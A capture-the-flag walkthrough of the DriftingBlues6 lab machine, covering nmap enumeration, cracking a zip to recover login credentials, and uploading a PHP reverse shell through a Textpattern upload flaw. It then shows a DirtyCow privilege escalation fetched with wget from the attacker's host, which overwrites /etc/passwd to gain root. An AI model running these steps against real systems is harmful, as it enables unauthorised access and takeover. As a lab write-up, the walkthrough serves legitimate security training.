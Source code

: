 # PG Play - DriftingBlues6

#### Ip: 192.168.156.219
#### Name: DriftingBlues6
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `sC` and `-sV` flags to use basic scripts and to enumerate versions.

```text
┌──(ryan㉿kali)-[~/PG/DriftingBlues6]
└─$ sudo nmap -p-  --min-rate 10000 192.168.156.219 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-01 14:49 CDT
Nmap scan report for 192.168.156.219
Host is up (0.072s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/textpattern/textpattern
|_http-title: driftingblues
|_http-server-header: Apache/2.2.22 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.87 seconds
```

Heading to the site we find a simple page:

![site.png](../assets/driftingblues6_assets/site.png)

And navigating to the `/textpattern/textpattern` found in robots.txt in the Nmap results, we find a login page:

text.png

Lets kick off some directory fuxxing against the site ( note: I'm using the `--filter-status 404` flag because I was getting a ton of 404s returning:

ferox.png

Spammer seems interesting. Navigating to 192.168.156.219/spammer I'm prompted to dowload a file called spammer.zip. 

```text
┌──(ryan㉿kali)-[~/PG/DriftingBlues6]
└─$ file spammer.zip 
spammer.zip: Zip archive data, at least v2.0 to extract, compression method=store
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/DriftingBlues6]
└─$ unzip spammer.zip                            
Archive:  spammer.zip
[spammer.zip] creds.txt password: 
```

Looks like it is indeed a zip file, and it looks like it may hold credentials. Unfortunately it's password protected. 

Lets crack the password using fcrackzip:

fcrack.png

Cool, we now have the password, lets unzip it:

```text
┌──(ryan㉿kali)-[~/PG/DriftingBlues6]
└─$ unzip spammer.zip                                              
Archive:  spammer.zip
[spammer.zip] creds.txt password: 
 extracting: creds.txt               
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/DriftingBlues6]
└─$ cat creds.txt   
mayer:lionheart
```

Nice, we were able to use these credentials to login:

login.png

### Exploitation

Looking at possible vulnerabilities here, I find the following: https://www.exploit-db.com/exploits/50415

This is interesting because it tells us we can upload malicious files to the server, and just as importantly where those files are saved.

Lets try and use PentestMonkey's php-reverse-shell.php here rather than just a webshell.

First we'll need to update the IP and port we'll be listening on in the script:

php.png

Then we can upload it to the files section of the page:

upload.png

Next, after setting up a NetCat listener, we can trigger the exploit by navigating to http://192.168.156.219/textpattern/files/php-reverse-shell.php

The page should just hang, and if we check ur listener, we can confirm we've caught the shell back:

```text
┌──(ryan㉿kali)-[~/PG/DriftingBlues6]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.177] from (UNKNOWN) [192.168.156.219] 50231
Linux driftingblues 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux
 15:14:32 up  2:03,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
driftingblues
```

Interesting, it appears there are no low-level users in the `/home` directory. Lets just straight for root here.

### Privilege Escalation

Lets go ahead and transfer over LinPEAS to help with enumerating a privilege escalation vector:

transfer.png

Linpeas finds the box is likely vulnerable to DirtyCow.

dc.png

Lets give it a shot:

```text
www-data@driftingblues:/tmp$ wget http://192.168.45.177/dirtycow.c
--2023-09-01 15:24:57--  http://192.168.45.177/dirtycow.c
Connecting to 192.168.45.177:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4814 (4.7K) [text/x-csrc]
Saving to: `dirtycow.c'

100%[======================================>] 4,814       --.-K/s   in 0.007s  

2023-09-01 15:24:57 (715 KB/s) - `dirtycow.c' saved [4814/4814]

www-data@driftingblues:/tmp$ gcc -pthread dirtycow.c -o dirty -lcrypt
www-data@driftingblues:/tmp$ chmod +x dirty
www-data@driftingblues:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fijI1lDcvwk7k:0:0:pwned:/root:/bin/bash

mmap: 7f3648232000
^C
www-data@driftingblues:/tmp$ su firefart
Password: 
firefart@driftingblues:/tmp# whoami
firefart
firefart@driftingblues:/tmp# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@driftingblues:/tmp# cd /root
firefart@driftingblues:~# pwd
/root
```

Nice that worked! Lets grab the final flag:

root_flag.png

Thanks for following along!

-Ryan

---------------------------------------------------------------------
